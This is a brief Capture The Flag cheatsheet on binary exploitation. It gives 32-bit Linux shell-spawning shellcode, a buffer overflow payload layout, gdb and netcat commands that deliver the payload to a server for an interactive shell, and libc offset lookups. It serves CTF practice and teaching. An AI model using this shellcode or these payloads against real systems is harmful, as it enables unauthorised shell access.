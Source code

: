 # Capture The Flag Cheatsheet

Example commands to aid in solving CTF problems.

## Binary Exploitation

#### Using 32-bit Shellcode

Reliable Linux/x86 (32-bit) shellcode. To find shellcode for your target architecture, see [shell-storm's list](http://shell-storm.org/shellcode/).

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
Anatomy of a payload for buffer overflow:

```
Buffer start                                                     Saved EBP              Return address                     Next Return address       Argument list
|                                                                |                      |                                  |                         |
[optional NOP (0x90) bytes] [injected shellcode] [padding bytes] [fake/garbage address] [desired return address (&callee)] [callee's return address] [optional argument 1] [optional argument 2, etc]
```

Debugging shellcode in gdb - open binary, set a breakpoint at the start of the vulnerable function, run with payload bytes sent to stdin.

```
gdb ./binary
(gdb) b vuln_func
(gdb) r < <(python2 -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x90"*111 + "\x90"*4 + "\x80\xa0\x04\x08"')
```
In gdb, just before a vulnerable function returns, examine two words above the frame's base pointer to verify the correct return address has been set:

```
(gdb) x/2xw $ebp
```

Send the payload to server 10.0.0.1, listening on port 1337. Note the appended cat command keeps the netcat sesssion open, granting an interactive shell:

```
(python2 -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x90"*111 + "\x90"*4 + "\x80\xa0\x04\x08"'; cat) | nc 10.0.0.1 1337
```
#### Computing offsets into libc

Assume you the know the address, in memory, at which libc has been loaded and have a local copy of the same libc version. To get offset of system():

```
readelf -s /lib/x86_64-linux-gnu/libc-2.21.so | grep "system"
```

To get the offset of the "/bin/sh" string:

```
strings -t x /lib/x86_64-linux-gnu/libc-2.21.so | grep "/bin/sh"
```
